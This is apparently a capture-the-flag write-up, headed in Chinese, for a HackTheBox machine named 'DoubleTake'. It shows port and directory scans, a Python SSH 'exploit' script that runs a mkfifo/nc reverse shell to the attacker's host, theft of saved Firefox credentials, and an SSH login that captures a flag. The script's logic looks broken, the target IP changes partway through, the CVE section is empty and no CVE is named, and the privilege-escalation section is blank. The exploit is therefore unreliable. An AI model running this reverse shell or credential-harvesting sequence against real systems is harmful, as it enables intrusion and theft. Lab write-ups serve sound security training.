

# HackTheBox - DoubleTake

<!-- more -->

## Port Scan

```bash
$ nmap -p22,80 -sC -sV 10.129.213.254
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-24 01:46 -0500
Nmap scan report for 10.129.213.254
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.6 (protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-auth:
| HTTP/1.1 401 UNAUTHORIZED\x0D
|_  Basic realm=Zentara
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.89 seconds

$ nmap -sU -top-ports 100 10.129.213.254
sh: 0: getcwd() failed: No such file or directory
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-24 01:48 -0500
Nmap scan report for 10.129.213.254
Host is up (0.23s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc

Nmap done: 1 IP address (1 host up) scanned in 110.24 seconds
```

## Directory Scanning

```bash
$ dirsearch -u "http://10.129.216.118"

  _|. _ _  _  _  _ _|_    v0.4.4
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12295

Target: http://10.129.216.118/

[02:49:05] Scanning:
[02:49:42] 405 -   153B - /api/chat
[02:49:56] 401 -     0B - /deploy
[02:49:57] 401 -     0B - /docs
[02:50:02] 401 -     0B - /files
[02:50:31] 401 -     0B - /settings
[02:50:35] 401 -     0B - /status
[02:50:35] 401 -     0B - /status?full=true
[02:50:41] 401 -     0B - /usage

Task Completed
```

## 找 CVE



腳本如下

```python
import paramiko, sys
host, lhost, lport = sys.argv[1], sys.argv[2], sys.argv[3]
t = paramiko.Transport((host, 22)); t.start_client()
pw = "A" * 300
for i in range(6):
    try:
        t.auth_password("alpine", pw)
        if t.is_authenticated(): break
    except paramiko.AuthenticationException:
        pass
ch = t.open_session()
ch.exec_command(f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f")
```

拿 reverse shell

```bash
$ python sshole.py 10.129.216.118 10.10.15.125 4444
$ rlwrap -cAr nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.15.125] from (UNKNOWN) [10.129.216.118] 39055
/bin/sh: can't access tty; job control turned off
~ $ whoami
alpine
```

## 找 cred.

```bash
~/.mozilla/firefox/zentara.default $ ll
total 88
drwxr-sr-x    2 alpine   alpine        4096 Nov 10 20:15 .
drwxr-sr-x    3 alpine   alpine        4096 Nov 10 20:15 ..
-rw-------    1 alpine   alpine       28672 Nov 10 20:15 cert9.db
-rw-------    1 alpine   alpine       36864 Nov 10 20:15 key4.db
-rw-r--r--    1 alpine   alpine         487 Nov 10 20:15 logins.json
-rw-------    1 alpine   alpine         456 Nov 10 20:15 pkcs11.txt
-rw-r--r--    1 alpine   alpine         182 Nov 10 20:15 prefs.js
-rw-r--r--    1 alpine   alpine           2 Nov 10 20:15 signedInUser.json
~/.mozilla/firefox/zentara.default $ cat logins.json
{"nextId":2,"logins":[{"id":1,"hostname":"http://172.17.0.1","httpRealm":"Zentara","formActionOrigin":null,"usernameField":"","passwordField":"","encryptedUsername":"Ym9i","encryptedPassword":"Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==","guid":"{a1b2c3d4-e5f6-7890-abcd-ef1234567890}","encType":0,"timeCreated":1730000000000,"timeLastUsed":1730900000000,"timePasswordChanged":1730000000000,"timesUsed":14}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
```

找到 base64 cred. 為: `Ym9i:Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==`

```bash
$ echo 'Ym9i' | base64 -d
bob
$ echo 'Q29ycmVjdEhvcnNlQmF0dGVyeVN0YXBsZQ==' | base64 -d
CorrectHorseBatteryStaple
$ sshpass -p CorrectHorseBatteryStaple ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null bob@10.129.216.118
7f906e0ee8ec:~$ cat user.txt
bbf13c5c690fcd6d0a27591b20ca3391
```

## 提權
